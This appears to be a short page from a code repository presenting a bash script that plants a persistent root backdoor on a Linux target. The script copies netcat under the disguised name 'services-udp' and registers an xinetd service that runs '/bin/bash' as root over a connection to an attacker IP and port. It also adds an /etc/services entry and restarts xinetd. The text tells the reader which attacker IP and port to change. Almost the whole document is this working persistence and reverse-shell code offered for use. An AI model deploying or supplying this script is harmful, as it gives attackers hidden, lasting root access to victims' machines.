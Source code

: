 This file will install a `xinetd` service to run on boot and provide a revers shell on the target after knocking on a specific port.

Parameters to change:
- `172.16.80.5` - Attacker listening IP
- `7777` - Attacker listening Port

```bash
#!/bin/bash 

cp /bin/nc /bin/services-udp
echo "service services-udp" >/etc/xinetd.d/services-udp
echo "{" >> /etc/xinetd.d/services-udp
echo " server = /bin/services-udp" >> /etc/xinetd.d/services-udp
echo " server_args = 172.16.80.5 7777 -e /bin/bash" >> /etc/xinetd.d/services-udp
echo " protocol = udp" >> /etc/xinetd.d/services-udp
echo " user = root" >> /etc/xinetd.d/services-udp
echo " socket_type = dgram" >> /etc/xinetd.d/services-udp
echo " wait = yes" >> /etc/xinetd.d/services-udp
echo " flags = IPv4" >> /etc/xinetd.d/services-udp
echo "}" >> /etc/xinetd.d/services-udp  

echo "services-udp 65534/udp # services-udp" >> /etc/services  

/etc/init.d/xinetd stop
/etc/init.d/xinetd start

# taken from https://gist.github.com/anonymous/3cb8e474b6bb3fd3787bda1e1a55cf56
```
